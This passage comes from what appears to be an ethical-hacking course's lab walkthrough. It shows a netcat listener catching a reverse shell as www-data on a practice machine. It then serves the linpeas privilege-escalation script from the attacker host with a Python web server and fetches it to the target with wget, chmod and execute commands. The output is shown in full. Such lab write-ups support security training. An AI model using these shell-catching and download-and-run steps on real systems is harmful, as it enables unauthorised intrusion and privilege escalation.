 ![revshell](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/262aefde-4f50-4489-a4a7-ad32704d3e0b)

Click `Update` , go back to our netcat listener and boom! We popped yet another shell!

```bash
──(kali㉿kali)-[~]
└─$ nc -nvlp 1234    
listening on [any] 1234 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.152] 41186
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 11:15:12 up 1 min,  1 user,  load average: 0.30, 0.26, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                12:13     ?     0.00s  0.00s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ sudo -l
/bin/sh: 2: sudo: not found
$ which sudo
$ locate sudo
/bin/sh: 4: locate: not found
```

So we got a shell, as an unprivileged user (AKA not root). Next thing to do is to find a way to elevate our privileges, and here comes a handy little script called [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) which allows us to search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts.

Follow the instructions in the repo and download it onto the Kali machine.

Next lets start a python server in the same directory as our linpeas file in order to download it onto our vulnerable machine. We can do this using `python3 -m http.server 80`. 

Back on the vulnerable machine, use the `wget` command followed by your kali ip and the filename to download. After that give it executable permissions using `chmod +x [linpeas.sh](http://linpeas.sh)` and finally run it using `./linpeas.sh`:

```bash
$ cd /tmp
$ pwd
/tmp
$ wget http://10.0.2.4/linpeas.sh
--2024-01-17 11:37:34--  http://10.0.2.4/linpeas.sh
Connecting to 10.0.2.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 847920 (828K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... ..........  6% 57.2M 0s
    50K .......... .......... .......... .......... .......... 12% 60.6M 0s
   100K .......... .......... .......... .......... .......... 18% 42.3M 0s
   150K .......... .......... .......... .......... .......... 24% 61.7M 0s
   200K .......... .......... .......... .......... .......... 30% 21.2M 0s
   250K .......... .......... .......... .......... .......... 36% 45.3M 0s
   300K .......... .......... .......... .......... .......... 42% 66.9M 0s
   350K .......... .......... .......... .......... .......... 48% 51.9M 0s
   400K .......... .......... .......... .......... .......... 54% 46.5M 0s
   450K .......... .......... .......... .......... .......... 60% 69.2M 0s
   500K .......... .......... .......... .......... .......... 66% 77.1M 0s
   550K .......... .......... .......... .......... .......... 72% 37.6M 0s
   600K .......... .......... .......... .......... .......... 78% 26.9M 0s
   650K .......... .......... .......... .......... .......... 84% 58.5M 0s
   700K .......... .......... .......... .......... .......... 90% 67.5M 0s
   750K .......... .......... .......... .......... .......... 96% 70.0M 0s
   800K .......... .......... ........                        100% 40.3M=0.02s

```